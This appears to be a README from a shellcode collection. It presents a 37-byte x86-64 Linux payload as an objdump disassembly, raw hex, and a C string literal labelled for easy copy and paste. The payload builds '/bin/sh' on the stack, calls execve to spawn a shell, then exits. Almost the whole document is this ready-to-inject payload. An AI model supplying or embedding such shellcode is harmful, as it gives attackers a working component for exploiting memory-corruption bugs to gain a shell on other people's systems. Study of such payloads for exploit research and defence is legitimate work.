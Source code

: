 # objdump of the text section

shellcode:     file format elf64-x86-64  


Disassembly of section .text:  
```assembly
0000000000401000 <_start>:  
  401000:	6a 3b                	push   $0x3b  
  401002:	58                   	pop    %rax  
  401003:	48 31 d2             	xor    %rdx,%rdx  
  401006:	48 bb 2f 2f 62 69 6e 	movabs $0x68732f6e69622f2f,%rbx  
  40100d:	2f 73 68   
  401010:	48 c1 eb 08          	shr    $0x8,%rbx  
  401014:	53                   	push   %rbx  
  401015:	54                   	push   %rsp  
  401016:	5f                   	pop    %rdi  
  401017:	52                   	push   %rdx  
  401018:	57                   	push   %rdi  
  401019:	54                   	push   %rsp  
  40101a:	5e                   	pop    %rsi  
  40101b:	0f 05                	syscall   
  40101d:	6a 3c                	push   $0x3c  
  40101f:	58                   	pop    %rax  
  401020:	48 31 ff             	xor    %rdi,%rdi  
  401023:	0f 05                	syscall   
```
# ShellCode in hexa

6a 3b 58 48 31 d2 48 bb
2f 2f 62 69 6e 2f 73 68
48 c1 eb 08 53 54 5f 52
57 54 5e 0f 05 6a 3c 58
48 31 ff 0f 05 

# Easy copy/paste to use in C
```
"\x6A\x3B\x58\x48\x31\xD2\x48"
"\xBB\x2F\x2F\x62\x69\x6E\x2F"
"\x73\x68\x48\xC1\xEB\x08\x53"
"\x54\x5F\x52\x57\x54\x5E\x0F"
"\x05\x6A\x3C\x58\x48\x31\xFF\x0F\x05"
```
